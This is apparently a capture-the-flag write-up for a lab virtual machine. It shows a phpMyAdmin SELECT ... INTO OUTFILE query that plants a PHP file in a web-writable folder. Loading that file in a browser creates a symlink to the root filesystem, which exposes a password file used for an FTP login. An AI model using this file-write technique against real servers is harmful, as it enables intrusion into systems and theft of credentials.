 # Bonus 3

Following the same mechanism of uploader injection, as explained in writeup2, we can insert through phpmyadmin a simple php code that creates a symbolic link of the root ("/") in the folder where we have read and write access, so that we can read the contents of "/home/LOOKATME" and read the "password" file, so I can access in ftp with the user "lmezard" and complete the challenges as described in writeup1.

Query for phpmyadmin:
```
SELECT "<?php symlink(\"/\", \"root_dir.php\");?>" INTO OUTFILE '/var/www/forum/templates_c/command.php'
```
Open from the browser:
```
https://192.168.56.143/forum/templates_c/command.php
```
So now in "templates_c" we have the folder "root_dir.php" which is a link to "/"

```
$ ftp 192.168.56.143
Connected to 192.168.56.143.
220 Welcome on this server
Name (192.168.56.143:umberto): lmezard
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pass
Passive mode on.
ftp> ls
227 Entering Passive Mode (192,168,56,143,227,202).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp>
```